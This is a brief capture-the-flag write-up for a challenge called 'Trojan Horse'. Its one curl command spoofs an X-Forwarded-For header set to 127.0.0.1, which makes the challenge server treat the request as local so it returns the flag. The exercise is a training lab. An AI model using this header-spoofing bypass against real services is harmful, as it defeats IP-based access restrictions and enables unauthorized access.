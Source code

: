 # Exercise 3-B Trojan Horse [100 points] (41 solves)
Basically make the server think it is coming from a local address:
```bash
curl -X POST http://chal.firebird.sh:35016 -sH "X-Forwarded-For: 127.0.0.1" | grep -oP "flag{.*}"
```